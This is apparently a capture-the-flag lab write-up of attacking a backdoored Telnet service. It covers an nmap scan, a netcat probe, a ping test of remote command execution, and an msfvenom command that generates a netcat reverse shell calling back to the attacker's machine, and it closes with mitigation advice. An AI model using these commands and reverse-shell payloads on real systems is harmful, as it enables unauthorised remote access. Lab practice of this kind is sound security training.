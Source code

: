 # Telnet

Telnet is a network protocol used to provide a command-line interface for communication with a remote device or server. It operates over TCP/IP and allows users to log into remote systems, execute commands, and manage devices as if they were directly connected to them.

### Scope:

### Tools and Technology:
Linux, MSFvenom, and Wireshark

## Enumeration:

To get started, I used nmap to scan against the target host:

```
nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv
```

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

Based on the output, I can see that port 8012 is open. I then tested the open port using Netcat:

```
nc 10.10.169.221 8012
```

![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So far, based on the information gathered using nmap and Netcat, I know that following:

+ It looks like the telnet service is running but on a non-defulat port (8012)
+ The service is name "Skidy's Backdoor"
+ Given the name above, its possible that a user exists with the name "Skidy"

## Command Execution:

Given the output above, I am able to execute commands on the remote target host. To test, I used the ping command:

```
ping 10.10.8.55 -c1
```

![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)

Looking at Wireshark, I was able to get an ICMP response from the remote server, which means that I was able to execute the command successfully:

![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)

## MSFvenom

MSFVenom is a command-line tool that is part of the Metasploit Framework. MSFVenom can generate a wide variety of payloads, which are pieces of code that exploit vulnerabilities in target systems.

![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)

Next, I generated a reverse shell payload using msfvenom:

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R
```

This is a breakdown of the command I am using:

+ -p = payload
+ lhost = our local host IP address (this is your machine's IP address)
+ lport = the port to listen on (this is the port on your machine)
+ R = export the payload in raw format

![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)

Executing the reverse shell on the remote system:

![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)

Next I needed to create a listening port:

![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

Looking at Wireshark, I can see taht the connection was established:

![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)

This is a closer look at one of the packets:

![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)

### Sumamry:

In this exercise, I was able to identify the telnet service was running on the target host and exploit it using MSFvenom. For mitigation against these types of attacks, it's important to ensure that unsecure protocols such as Telnet, are disabled. If needed, you can replace Telnet with SSH for secure encrypted communications. Its also important to conduct regular security audits and vulnerability assessments to identify and mitigate potential risks associated with Telnet and other services that may be enabled/running as part of a misconfiguration. 

